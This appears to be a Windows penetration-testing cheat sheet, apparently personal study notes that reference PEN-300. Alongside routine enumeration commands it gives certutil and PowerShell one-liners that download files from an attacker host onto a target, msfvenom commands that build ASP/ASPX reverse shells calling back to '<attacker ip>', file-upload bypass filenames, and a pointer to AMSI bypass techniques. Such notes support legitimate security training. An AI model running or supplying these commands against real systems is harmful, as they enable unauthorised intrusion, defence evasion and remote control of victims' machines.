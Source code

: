 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

Running services

```
Get-Service | where {$_.Status -eq "Running"}
```